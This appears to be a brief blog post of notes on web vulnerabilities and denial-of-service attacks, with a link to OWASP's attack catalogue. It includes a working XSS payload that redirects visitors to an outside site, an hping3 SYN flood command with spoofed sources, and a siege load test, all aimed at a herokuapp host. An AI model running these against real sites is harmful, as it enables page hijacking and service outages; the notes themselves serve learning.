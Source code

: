 ```yaml
---
layout: post
title: Web vulerability and dos attacks
---
```


* [OWASP](https://www.owasp.org/index.php/Category:Attack) nice examples of
attack and vulnerability

~~~
<IMG SRC=/ onerror="console.log('cao. bolje da eskejpujete sadrzaj');location.assign('http://www.iznajmljivanjeprojektoranovisad.in.rs')"></img>
~~~

* dos attacks:
  * `sudo hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source myapp.herokuapp.com`
  * `siege myapp.herokuapp.com -c25 -t1M`

